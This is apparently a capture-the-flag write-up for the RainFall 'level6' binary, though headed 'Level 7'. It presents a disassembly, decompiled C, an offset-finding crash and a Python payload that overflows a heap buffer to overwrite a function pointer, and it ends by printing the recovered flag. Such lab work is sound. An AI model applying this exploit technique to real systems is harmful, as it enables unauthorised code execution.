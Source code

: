 # Level 7

This time it is completely different. The program `malloc()`s twice then `strcpy()`s somewhere? What?

```gdb
(gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:     push   ebp
   0x0804847d <+1>:     mov    ebp,esp
   0x0804847f <+3>:     and    esp,0xfffffff0
   0x08048482 <+6>:     sub    esp,0x20
   0x08048485 <+9>:     mov    DWORD PTR [esp],0x40
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>
   0x08048491 <+21>:    mov    DWORD PTR [esp+0x1c],eax
   0x08048495 <+25>:    mov    DWORD PTR [esp],0x4
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:    mov    DWORD PTR [esp+0x18],eax
   0x080484a5 <+41>:    mov    edx,0x8048468
   0x080484aa <+46>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484ae <+50>:    mov    DWORD PTR [eax],edx
   0x080484b0 <+52>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080484b3 <+55>:    add    eax,0x4
   0x080484b6 <+58>:    mov    eax,DWORD PTR [eax]
   0x080484b8 <+60>:    mov    edx,eax
   0x080484ba <+62>:    mov    eax,DWORD PTR [esp+0x1c]
   0x080484be <+66>:    mov    DWORD PTR [esp+0x4],edx
   0x080484c2 <+70>:    mov    DWORD PTR [esp],eax
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484ce <+82>:    mov    eax,DWORD PTR [eax]
   0x080484d0 <+84>:    call   eax
   0x080484d2 <+86>:    leave  
   0x080484d3 <+87>:    ret    
End of assembler dump.
```

With the help of a disassembler we can see more clearely what's happening:

```c
void	n() {
	system("/bin/cat /home/user/level7/.pass");
}

void	m() {
	puts("Nope!");
}

int main(int argc, char **argv) {
	char	*str;
	void	*(*func)();

	str = malloc(0x40);
	func = malloc(0x4);

	func = m;
	strcpy(str, argv[1]);
	(*func)();
}
```

So the program allocates space for a string and a function pointer,
then assigns the function pointer to the function `m()` and copies `argv[1]` in the allocated string.
Also it calls the function pointed by the function pointer.

It looks like, as the `strcpy()` is after the function pointer assignation, that an overflow might happen.
Lets test this:

```bash
level6@RainFall:~$ ./level6 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
Segmentation fault (core dumped)
level6@RainFall:~$ dmesg
[...]
[90729.267071] level6[18127]: segfault at 53535353 ip 53535353 sp bffff5ac error 14
```

We see that we are segfault-ing at 53535353, which is our 'SSSS'. So the offset is 72.
The address of `n()` is `0x804845a`, so to call `n()` instead of `m()` we should only give the address after our 72 characters of offset.

```python
print(72 * '*' + '\x5a\x84\x04\x08')
```

```bash
level6@RainFall:~$ ./level6 $(python level6.py)
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

Works smoothly!

## .pass: f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d